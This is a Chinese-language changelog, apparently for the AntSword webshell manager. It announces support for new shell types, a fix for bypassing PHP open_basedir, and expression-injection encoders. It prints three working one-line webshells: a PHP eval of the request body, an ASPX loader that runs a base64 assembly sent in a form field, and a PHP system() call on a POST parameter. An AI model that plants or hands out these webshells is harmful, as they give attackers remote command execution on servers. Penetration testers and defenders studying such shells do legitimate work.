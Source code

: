# 更新日志
> 有空会补补BUG、添添新功能。    
> 同时也欢迎大家的参与！感谢各位朋友的支持！ .TAT.

## 2022/07/17 `v(2.1.15)`

### 核心

* 修复 PHP/PHP4 当前目录不可写时 bypass open_basedir 失败的 Bug
* 新增 PHPRAW 类型, 该类型支持的 WebShell 类似如下代码:

```php
<?php eval(file_get_contents("php://input"));?>
```

> 为了方便直连 Behinder3 WebShell, 编码器已内置。

* 新增 ASPXCSharp 类型

该类型支持的 WebShell 类似如下代码:

```
<%@ Page Language="c#"%>
<%
  String Payload = Request.Form["ant"];
  if (Payload != null)
  {
    System.Reflection.Assembly assembly = System.Reflection.Assembly.Load(Convert.FromBase64String(Payload));
    assembly.CreateInstance(assembly.GetName().Name + ".Run").Equals(null);
  }
%>
```

有关该类型的设计说明, 请参考[聊聊新类型ASPXCSharp](https://yzddmr6.com/posts/%E8%81%8A%E8%81%8A%E6%96%B0%E7%B1%BB%E5%9E%8BASPXCSharp/)

* 新增 PSWindows 类型，与 CMDLinux 类似

> 基于命令执行的一句话类型, 仅支持 Windows 环境

该类型支持的 WebShell 类似如下代码:

```php
<?php system($_POST["ant"]);?>
```

有关 PSWindows 的一些注意事项和原理说明, 请参考[新类型 PSWindows 预览](https://mp.weixin.qq.com/s/tPPg4VgQH-n2O3Lnfg8lVA)

* JSPJS 兼容各种表达式注入

> 具体请看 spelbase64、el、ognl 这三个内置编码器样例, 详细请参考[Java表达式注入的武器化利用](https://mp.weixin.qq.com/s/nCvAICapO8NX--VfToLcwQ)

### 数据管理


[medicaean-github]: https://github.com/Medicean
[peablog-github]: https://github.com/peablog
[loveshell-github]: https://github.com/loveshell
[Lupino-github]: https://github.com/Lupino